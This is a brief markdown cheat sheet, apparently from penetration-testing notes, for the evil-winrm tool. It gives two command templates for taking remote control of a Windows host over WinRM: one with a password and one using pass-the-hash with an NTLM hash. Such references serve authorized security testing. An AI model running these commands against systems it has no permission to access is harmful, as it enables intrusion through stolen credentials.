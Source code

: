 # evil-winrm - *A Ruby tool for controlling a Windows target through WinRM*

## Control a Windows target with username and password (doesn't have to be admin)

```bash
evil-winrm -i $TARGET -u [$DOMAIN\\]$USERNAME -p $PASSWORD
```

## Pass an NTLM hash and control a Windows target

```bash
evil-winrm -i $TARGET -u [$DOMAIN\\]$USERNAME -H $NTLM_HASH
```
